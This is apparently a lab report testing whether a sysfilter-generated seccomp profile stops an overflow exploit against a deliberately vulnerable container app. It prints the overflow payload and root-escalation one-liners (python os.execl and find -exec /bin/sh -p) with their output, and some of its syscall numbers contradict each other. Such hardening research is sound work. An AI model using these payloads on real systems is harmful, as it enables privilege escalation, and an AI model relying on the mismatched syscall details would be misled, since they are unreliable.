 ## Custom – sysfilter

### Preparation

#### System Calls Extraction

_Extract the syscalls from the binary `custom_app` into `/tmp/app.json`_

```
docker exec -it custom-sysfilter-seccomp-container bash -c "/sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
```

#### Seccomp Profile enforcement

_Enforce the allowed syscalls for the binary `custom_app`_

```
docker exec -it custom-sysfilter-seccomp-container bash -c "/sysfilter/enforcement/sysfilter_enforce /app/custom_app /tmp/app.json"
```

#### Starting containers

It is not neccessary to start the app/container.
Just enter the containers with the command `bash`.

```
docker exec -it custom-sysfilter-seccomp-container bash
docker exec -it custom-chestnut-seccomp-container bash
```

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                      COMMAND       CREATED          STATUS          PORTS                                                                                  NAMES
76b9e25b31d8   custom-sysfilter-normal    "/bin/bash"   11 minutes ago   Up 11 minutes                                                                                          custom-sysfilter-normal-container
d400d5b35097   custom-sysfilter-seccomp   "/bin/bash"   11 minutes ago   Up 11 minutes
```

Note: the attacks are executed inside each container. The script `attack.sh` is in the current directory.

_seccomp_
The attack on the container with the applied seccomp profile fails almost completely for binaries which could be dangerous. However, execution of the binaries `/bin/pwd` and `/bin/true` is still possible! There is a chance that other binaries might aswell execute successfully.

```
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
Bad system call (core dumped)
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6
locals.path = [/usr/bin/python3.6]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6]
Bad system call (core dumped)
user@898919bd1119:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find
locals.path = [/usr/bin/find]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find]
Bad system call (core dumped)
user@898919bd1119:/bin$ /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd
locals.path = [/bin/pwd]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd]
/bin/pwd: ignoring non-option arguments
/bin
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
user@55a5a57f43fe:/app$ ./custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ true
$ uname
Linux
$ /usr/bin/python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the application with the command `strace -f /app/custom_app` we are able to see that just before the process was killed with the signal `SIGSYS`, the system call `getuid` and `set_tid_address` were executed.

```
# /bin/sh execution
...
munmap(0x7e38708aa000, 20804)           = 0
getuid()                                = 102
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/id execution
...
munmap(0x70baca458000, 20804)           = 0
set_tid_address(0x70baca455310)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/python3.6 execution
...
munmap(0x778f17b54000, 20804)           = 0
set_tid_address(0x778f17b4da10)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)

# /usr/bin/find execution
...
munmap(0x70f3357e9000, 20804)           = 0
set_tid_address(0x70f3357e2ad0)         = 218
+++ killed by SIGSYS (core dumped) +++
Bad system call (core dumped)
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 158 was the reason for the `SIGSYS` signal.

```
# /bin/sh execution
time->Mon Apr 28 18:14:18 2025
type=SECCOMP msg=audit(1745857458.872:21766): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=196887 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=102 compat=0 ip=0x707bebe1c837 code=0x0
----
# /usr/bin/id execution
time->Mon Apr 28 18:14:51 2025
type=SECCOMP msg=audit(1745856891.891:21575): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193146 comm="id" exe="/usr/bin/id" sig=31 arch=c000003e syscall=218 compat=0 ip=0x721ba9628eb5 code=0x0
----
# /usr/bin/python3.6 execution
time->Mon Apr 28 18:15:01 2025
type=SECCOMP msg=audit(1745856901.383:21585): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193209 comm="python3.6" exe="/usr/bin/python3.6" sig=31 arch=c000003e syscall=218 compat=0 ip=0x780ae044eeb5 code=0x0
----
# /usr/bin/find execution
time->Mon Apr 28 18:15:07 2025
type=SECCOMP msg=audit(1745856907.759:21595): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=193247 comm="find" exe="/usr/bin/find" sig=31 arch=c000003e syscall=218 compat=0 ip=0x71cdcf375eb5 code=0x0
```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
218	set_tid_address
```

The last thing we check is, if the system call number `218` was in the applied seccomp profile. The file `/tmp/app.json` shows no presence:

```
[0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,20,24,25,28,32,39,41,42,44,45,47,49,51,54,59,60,62,72,78,79,96,99,186,201,202,228,229,231,234,257,262,302]
```

## Appendix

The following shows the time needed to extract the system calls from 3 runs:

```
❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.298s
user	0m4.167s
sys	0m0.115s

❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.122s
user	0m3.992s
sys	0m0.117s

❯ docker exec -it custom-sysfilter-seccomp-container bash -c "time /sysfilter/extraction/app/sysfilter_extract /app/custom_app -o /tmp/app.json"
real	0m4.325s
user	0m4.187s
sys	0m0.120s
```

`(4,298+4,122+4,325)/3=4,248`

### Missing system calls

Following system calls are not detected by sysfilter, but needed for the application to start successfully, therefore we added these two to the seccomp-profile `/tmp/app.json`. This is not sysfilters fault for not recognising the required system call, but rather a side-effect of the application logic calling a binary outside the application.

- 21 (access)
- 158 (arch_prctl)
- 221 (fadvise64)

```
sed -i '0,/\]/s/\]/,21,158,221]/' /tmp/app.json
```

### Number of system calls

```
python3 -c "print(len([0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,20,24,25,28,32,39,41,42,44,45,47,49,51,54,59,60,62,72,78,79,96,99,186,201,202,228,229,231,234,257,262,302]))"
48
```
